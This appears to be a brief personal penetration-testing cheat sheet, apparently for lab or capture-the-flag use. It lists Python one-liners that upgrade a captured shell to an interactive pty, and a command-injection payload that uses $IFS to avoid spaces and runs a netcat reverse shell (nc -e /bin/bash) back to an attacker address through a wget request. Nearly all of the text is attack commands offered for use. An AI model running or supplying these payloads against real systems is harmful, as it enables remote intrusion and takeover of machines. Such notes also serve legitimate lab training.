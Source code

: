 #linux
# Locations of files of an linux install
`apt-file list <packet>`

# Interactive Python pty
 #pty #shell
 
`python3 -c 'import pty; pty.spawn("/bin/sh")'`
`python3 -c 'import pty; pty.spawn("/bin/bash")'`
`python -c 'import pty; pty.spawn("/bin/sh")'`

# Command injetion space
Use `$IFS`.
Together with Netcat:
`wget http://10.10.14.XXX:8000/$(nc.traditional$IFS-e/bin/bash$IFS'10.10.14.XXX'$IFS'6666')`